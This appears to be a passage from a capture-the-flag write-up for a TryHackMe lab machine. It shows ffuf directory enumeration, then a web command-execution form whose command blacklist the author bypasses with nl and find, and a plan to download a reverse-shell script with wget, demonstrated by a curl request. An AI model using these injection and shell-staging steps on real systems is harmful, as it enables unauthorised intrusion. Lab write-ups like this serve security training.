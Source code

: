```shell
fonts                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 36ms]
images                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 39ms]
index.html              [Status: 200, Size: 35184, Words: 16992, Lines: 644, Duration: 37ms]
js                      [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 37ms]
secret                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 41ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 38ms]
:: Progress: [4712/4712] :: Job [1/1] :: 1075 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
```

after dirbusting with ffuf one directory got my attention. `secret`

![image](/images/Pasted image 20221017222347.png)

just a site with an input field and one button.
i tried `whoami` and got a positive answer.

![image](/images/Pasted image 20221017222519.png)

but a some commands are blacklisted.

![image](/images/Pasted image 20221017222613.png)

I tried different commands to view the contents of a file and in the end `nl` was one that worked.

because `ls` is not working i used `find` to look for files.

![image](/images/Pasted image 20221017223746.png)

but i could not read the `local.txt`. bash was of course black listed too and other tools like python also. i wanted to spawn a reverse shell and luckily i could use `wget` to download the shell script to the victim. i also moved to `curl` for faster iteration.

```shell
$ curl -L -d "command=wget --version" http://chillhack.thm/secret/
<html>
<body>

<form method="POST">
        <input id="comm" type="text" name="command" placeholder="Command">
        <button>Execute</button>
</form>
<h2 style="color:blue;">GNU Wget 1.19.4 built on linux-gnu.

-cares +digest -gpgme +https +ipv6 +iri +large-file -metalink +nls
+ntlm +opie +psl +ssl/openssl
</h2>
                        <style>
                             body
                             {
                                   background-image: url('images/blue_boy_typing_nothought.gif');
                                   background-position: center center;
                                   background-repeat: no-repeat;
                                   background-attachment: fixed;
                                   background-size: cover;
}
                          </style>
        </body>
</html>
```
